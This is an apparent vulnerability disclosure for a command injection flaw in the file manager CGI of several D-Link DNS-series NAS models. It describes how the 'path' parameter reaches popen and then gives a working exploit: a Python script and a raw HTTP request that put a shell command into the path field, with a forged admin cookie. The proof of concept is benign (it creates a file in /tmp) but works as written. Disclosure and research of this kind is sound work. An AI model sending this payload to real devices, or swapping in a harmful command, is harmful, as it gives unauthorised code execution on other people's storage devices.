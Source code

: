 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_add_zip function of the file /cgi-bin/webfile_mgr.cgi.  The variable `path`is passed from a POST request and is assigned to `v3` via the `snprintf` function at line 35 and invoked by the `popen` command, the fix_path_special_char function did not work which leads to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723733031582-8a439208-fffd-4571-ad0b-e891b66aa341.png#averageHue=%23fefefd&clientId=u40cede71-c2b5-4&from=paste&height=164&id=u5964a9f5&originHeight=164&originWidth=690&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23758&status=done&style=none&taskId=u1794a916-7991-431e-a41a-4ac12e5be95&title=&width=690)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723733027241-7d6e9393-d4cb-40cb-8ba6-5539c931a245.png#averageHue=%23fefefa&clientId=u40cede71-c2b5-4&from=paste&height=179&id=u6460ef42&originHeight=179&originWidth=1075&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25603&status=done&style=none&taskId=u271d9e7d-ae17-4d18-86a1-202b23d56dc&title=&width=1075)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/webfile_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_add_zip&name=1&path=;%0atouch%09/tmp/122%0a;"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/webfile_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_add_zip&name=1&path=;%0atouch%09/tmp/122%0a;
```

